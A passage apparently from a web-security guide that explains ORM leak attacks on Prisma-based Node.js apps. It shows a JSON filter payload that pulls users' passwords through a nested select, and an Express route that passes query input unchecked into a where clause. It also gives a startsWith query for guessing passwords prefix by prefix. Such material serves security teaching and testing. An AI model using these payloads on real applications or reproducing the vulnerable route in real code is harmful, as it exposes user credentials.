 The following one selects all the posts created by someone with a password and wil return the password:

```json
{
    "filter": {
        "select": {
            "createdBy": {
                "select": {
                    "password": true
                }
            }
        }
    }
}

// Response
[
    {
        "createdBy": {
            "password": "super secret passphrase"
        }
    },
    ...
]
```

* **Full where clause control**:

Let's take a look to this where the attack can control the `where` clause:

<pre class="language-javascript"><code class="lang-javascript">app.get('/articles', async (req, res) => {
    try {
        const posts = await prisma.article.findMany({
<strong>            where: req.query.filter as any // Vulnerable to ORM Leaks
</strong>        })
        res.json(posts);
    } catch (error) {
        res.json([]);
    }
});
</code></pre>

It's possible to filter the password of users directly like:

```javascript
await prisma.article.findMany({
    where: {
        createdBy: {
            password: {
                startsWith: "pas"
            }
        }
    }
})
```
